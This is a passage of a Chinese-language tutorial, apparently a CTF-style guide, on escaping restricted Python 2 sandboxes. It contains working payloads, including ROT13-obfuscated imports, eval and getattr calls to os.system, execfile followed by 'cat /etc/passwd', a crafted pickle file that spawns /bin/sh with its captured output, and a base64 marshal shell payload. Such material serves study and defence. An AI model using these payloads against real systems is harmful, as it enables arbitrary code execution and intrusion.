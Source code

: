 `__import__("pbzznaqf".decode('rot_13')).getoutput('id')` 或者 `import importlib;importlib.import_module("pbzznaqf".decode('rot_13')).getoutput('id')`

对于前面这些所使用的函数都是来自于`__builtin__` ，如果被删除了就使用`reload(__builtin__)`

和`import imp;imp.reload(__builtin__)`

`__builtin__.eval('__import__("os").system("ls")')` 执行命令

在sys.modules中os模块不存在的时候，因为python导入库，其实就是执行一遍代码，所以`if __name__ =='__main__'` 就是为了防止在引入的时候，执行其中的代码。所以我们可以给Sys.module添加一个新module：

```
&gt;&gt;&gt; import sys
&gt;&gt;&gt; sys.modules['os']='/usr/lib/python2.7/os.py'
&gt;&gt;&gt; import os
```

execfile() 利用OS文件来执行命令：

```
&gt;&gt;&gt; execfile('/usr/lib/python2.7/os.py')
&gt;&gt;&gt; system('cat /etc/passwd')
```

getattr函数，要先引入OS模块：

```
import os;getattr(os,'system')('id')
```



## 0x03 其他

利用Pickle.load来执行命令：

```
&gt;&gt;&gt; import pickle;pickle.load(open('cmd'))
$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),116(scanner)
$ pwd
/tmp
$ cat cmd
cos
system
(S'/bin/sh'
tR.
```

解释下cmd文件，

第一行c就是读取这一行作为module引入，读取下一行作为module中的object，所以就变成了os.system。

第三行`(` 与第四行`t`组成元组，`S` 读取这一行的字符串，`R`把元组作为参数带入到上一个对象中执行。`.`表示pickle结束。

我们os模块的引用放入到函数中，并且利用marshal来序列化及进行编码。这里的`__code__`也是在上一篇节引用文章有提过的`func_code`

```
import marshal
import base64
def foo():
    import os
    os.system('/bin/sh')

print base64.b64encode(marshal.dumps(foo.__code__))

#output
YwAAAAABAAAAAgAAAEMAAABzHQAAAGQBAGQAAGwAAH0AAHwAAGoBAGQCAIMBAAFkAABTKAMAAABOaf////9zBwAAAC9iaW4vc2goAgAAAHQCAAAAb3N0BgAAAHN5c3RlbSgBAAAAUgAAAAAoAAAAACgAAAAAcwUAAABzcy5weXQDAAAAZm9vAwAAAHMEAAAAAAEMAQ==
```